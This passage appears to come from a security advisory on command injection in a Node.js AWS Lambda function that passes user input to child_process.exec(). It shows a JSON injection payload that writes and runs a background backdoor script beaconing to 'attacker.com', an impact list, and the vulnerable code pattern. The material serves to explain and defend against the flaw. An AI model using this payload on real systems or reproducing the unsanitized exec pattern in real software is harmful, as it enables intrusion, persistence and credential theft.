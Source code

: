 
**Scenario 3: Persistent Backdoor**
An attacker creates a backdoor that persists across Lambda invocations (within the execution context lifespan):
```json
{
  "directory": ". ; echo 'const http = require("http"); const { exec } = require("child_process"); function backdoor() { try { http.get("http://attacker.com/beacon?id=$(hostname)", () => {}); setTimeout(backdoor, 60000); } catch(e) {} }; backdoor();' > /tmp/backdoor.js && node /tmp/backdoor.js &"
}

```
This creates a script that beacons to the attacker's server and continues running in the background, potentially for hours if the Lambda execution context is reused.

# Impact Analysis
**Business Impact:**
- Unauthorized access to sensitive data processed by the Lambda function
- Potential breach of customer data leading to compliance violations (GDPR, CCPA, etc.)
- Compromise of AWS credentials potentially allowing lateral movement to other AWS services
- Financial impact from unauthorized use of AWS resources or data theft
- Reputational damage from security breach disclosure
- Remediation costs including incident response, forensics, and security improvements
- Potential regulatory penalties and legal liabilities

**Technical Impact:**
- Command execution with the permissions of the Lambda IAM role
- Access to environment variables containing configuration secrets and API keys
- Potential access to AWS metadata service and temporary credentials
- Ability to make outbound network connections to exfiltrate data
- Potential write access to the /tmp directory allowing for temporary persistence
- Capability to invoke other AWS services accessible to the Lambda's IAM role
- Possible disruption of Lambda functionality through resource exhaustion
- Logs manipulation to hide evidence of compromise
- Ability to modify function behavior within the current execution context

# Technical Details
The vulnerability stems from unsanitized user input being directly incorporated into a shell command executed via Node.js `child_process.exec()`. This function passes its command string to a shell interpreter (/bin/sh), which means special characters have significant meaning.

```javascript
// Vulnerable code pattern
const { exec } = require('child_process');

exports.handler = async (event) => {
  const userInput = event.directory;
  const archiveCommand = `tar -czf /tmp/backup.tgz ${userInput}`;
  
  exec(archiveCommand, (error, stdout, stderr) => {
    // Error handling code...
  });
  
  // Rest of function...
};

```
